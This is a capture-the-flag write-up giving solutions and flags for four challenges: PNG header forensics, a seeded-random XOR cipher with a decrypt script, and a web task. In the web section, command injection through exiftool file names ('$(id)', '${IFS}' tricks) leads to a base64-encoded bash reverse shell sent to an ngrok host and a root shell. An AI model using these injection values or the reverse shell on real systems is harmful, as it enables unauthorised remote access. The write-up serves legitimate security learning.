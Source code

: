 ## BIBBA 1/Forensics
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d2871924-ee53-45bc-9df3-26557a5ab988)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c2859581-b48a-4317-9801-a273deb5e4ce)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/effaaff9-393d-4d87-8381-d55bff37ea7c)
0CTF{pNg_h34d3rs_4r3_A_P4!n_P4!n_!n_7h3_455}
## sanity check
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/983bd774-9124-4545-a014-a3422392669e)
- go to the source code and search for "0CTF"
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/db927e03-bb29-4d6c-8126-63ddf0d56930)
0CTF{0ut_0f_B0unds}
## echoes of encryption/crypto
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/f09f6cda-98e8-4ed4-b3bf-fe524ada90b4)
- encrypt.py
```
import random
import string
def encrypt_string(input_string, seed):
    random.seed(seed)   
    allowed_chars = string.ascii_letters + string.digits
    key = ''.join(random.choices(allowed_chars, k=len(input_string)))
    encrypted_string = ''
    for i in range(len(input_string)):
        encrypted_char = chr(ord(input_string[i]) ^ ord(key[i]))
        encrypted_string += encrypted_char
    return encrypted_string.encode().hex()
seed_value = '311222'
input_string = ""
encrypted = encrypt_string(input_string, seed_value)
```
- cipher
```
5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b
```
- decrypt.py
```
import random
import string
#seed1='CVE-2022-42269'
#seed1='202242269'
#seed1='CVE-2022-42269'
#seed1=7.9
seed1=202242269
random.seed(seed1)
allowed_chars = string.ascii_letters + string.digits
key = ''.join(random.choices(allowed_chars, k=43))
# print("key si ",key,"len is ",len(key))
c='5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b'
#after applying bytes.fromhex()
value1=bytes.fromhex(c)
#after decodig to asci from bytes
value2=value1.decode()
# print("value2 is ",value2,"len is ",len(value2))#43
ans=''
for i in range(len(value2)):
    x=chr(ord(value2[i])^ord(key[i]))
    ans=ans+x
# print("ans is ",ans)
# print("rev is ",ans[::-1])
print("ans ",ans)
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/8d3cfc3a-63f9-46c7-9219-f1446ab9be83)
- 0CTF{alw4y5_r3ad_7he_d3scr!pti0n_c4r3fully}
## Data's Data/web
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d5c96849-aec8-4582-941e-ad7d39975e82)
- frontend
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/4053f72d-236c-45d1-b839-6f02e34505cc)
- it runs exiftool on the provided file
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/1416894e-d4e4-48b2-9515-a2fa058815cc)
- so it is could be like `exiftool filename.extension`
- so if this is the case we can try to execute commands(cmd injection)
- IFS -internal field seperator
## making malicious file names
1:try id
```
C:\home\radha\Desktop\exiftool> touch '$(id)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'
```
- result
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/5d3327b1-a5e4-4ca9-8df3-946c5b61e4b5)
2: try to have a blind cmd execution(sleep?)
```
C:\home\radha\Desktop\exiftool> touch '$(sleep${IFS}10)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'  '$(sleep${IFS}10)'
```
- here the `${IFS}` is for a space
- we do get the response only after 10 secnonds from browser web page
### getting reverse shell
- `bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1`
- started a ngrok tcp server at port x(say 1234)  `ngrok tcp 1234`
- started a netcat listner at port x(1234) `nc -lvp 1234`
- the`0.tcp.in.ngrok.io` is part of hostname
- the 18308 is the corresponding port
```
C:\home\radha\Desktop\exiftool> ngrok tcp 1234
```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/423bc5e4-a413-4b29-8906-edebd460f41f)
- the charcters like &> must be encoded
- so i did base64 encoding
- payload of reverse shell
```
C:\home\radha\Desktop\exiftool> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg==
```
- we need this payload to be base64 decoded on the server and get executed
- so we need to run on server like this
```
echo THIS_PAYLOAD |base64 -d|bash
```
- so this must be exeuted on the server side
- just as we executed sleep by $(sleep${IFS}10) we follow a similar approach
```
$(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64 -d|bash)
$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)
```
- so this must be the name of file

- creatig file
```
touch "$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)"
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/38495d4c-354b-480a-8d08-5c141a1350d1)
- rev shell
```
C:\home\radha\Desktop\exiftool> nc -nvlp 1234 
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37650
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@traboda:/# whoami
whoami
root
root@traboda:/# ls
ls
```
- gettgin flag
```
root@traboda:/# cat Do*
cat Do*
FROM python:3.11
WORKDIR /
RUN apt update
RUN apt -y install exiftool
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
COPY . .
ENV flag="0CTF{Congratulations_for_finding_the_flag}"
EXPOSE 80
CMD python3 index.pyroot@traboda:/#
```
- 0CTF{Congratulations_for_finding_the_flag}

